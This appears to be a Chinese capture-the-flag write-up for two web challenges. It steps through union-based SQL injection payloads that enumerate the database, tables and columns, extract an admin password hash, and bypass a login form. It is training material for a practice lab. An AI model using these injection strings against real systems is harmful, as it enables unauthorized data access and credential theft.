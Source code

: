 ![image-20240427210416620](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240427210416620.png)

构造sql注入语句

`id=-1 union select 1,database()`

![image-20240427210617642](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240427210617642.png)

`id=-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='news')`

![image-20240427210914407](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240427210914407.png)

`id=-1 union select 1,(select group_concat(column_name) from information_schema.column where table_schema='news' and table_name='admin')`

![image-20240427211438790](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240427211438790.png)

`id=-1 union select 1,(select group_concat(password) from admin)`

![image-20240427211615896](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240427211615896.png)

账号admin

密码90dca9d3f4e98f5f67c11660d29dddeb

登录获得flag

## web2

访问ip只有一个登录框，结合题目提示sql注入

`admin' or 1=1 union select 1,2,3;#--`

查看回显点

`admin' or 1=1 union select 1,database(),3;#-- `

查看库名

![image-20240428193641699](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240428193641699.png)

`admin' or 1=1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='web2'),3;#--` 

查看数据表



![image-20240428193942470](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240428193942470.png)

`admin' or 1=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='web2' and table_name='flag'),3;#--` 

看列



![image-20240428194148057](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240428194148057.png)
